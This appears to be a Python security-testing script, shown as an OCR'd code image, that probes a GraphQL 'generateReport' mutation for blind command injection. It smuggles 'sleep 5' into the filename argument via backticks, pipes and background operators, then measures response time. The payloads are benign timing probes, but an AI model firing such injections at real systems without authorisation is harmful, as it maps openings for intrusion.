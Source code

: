        def test_command_injection(url):
           headers = {"Content-Type": "application/json"}
           
           # Test payloads with timing attacks
           test_cases = [
               {
                   "name": "Basic Sleep Command",
                   "query": """
                   mutation {
                     generateReport(format: "pdf", filename: "report`sleep 5`") {
                       downloadUrl
                     }
                   }
                   """
               },
               {
                   "name": "Piped Command",
                   "query": """
                   mutation {
                     generateReport(format: "pdf", filename: "report | sleep 5") {
                       downloadUrl
                     }
                   }
                   """
               },
               {
                   "name": "Background Process",
                   "query": """
                   mutation {
                     generateReport(format: "pdf", filename: "report& sleep 5 &") {
                       downloadUrl
                     }
                   }
                   """
               }
           ]
           
           for test in test_cases:
               print(f"[*] Testing: {test['name']}")
               
               start_time = time.time()
               response = requests.post(url, headers=headers, json={"query": test["query"]})
               end_time = time.time()
               
               execution_time = end_time - start_time
               print(f"[*] Execution time: {execution_time:.2f} seconds")
               
               if execution_time >= 5:
                   print("[+] Potential command injection vulnerability detected!")
                   print(f"[+] Command execution took {execution_time:.2f} seconds")
               
               print(f"[*] Status code: {response.status_code}")
               if response.status_code == 200:
                   try:
                       result = response.json()
                       print(f"[*] Response: {result}")
                   except:
                       print("[-] Failed to parse JSON response")
               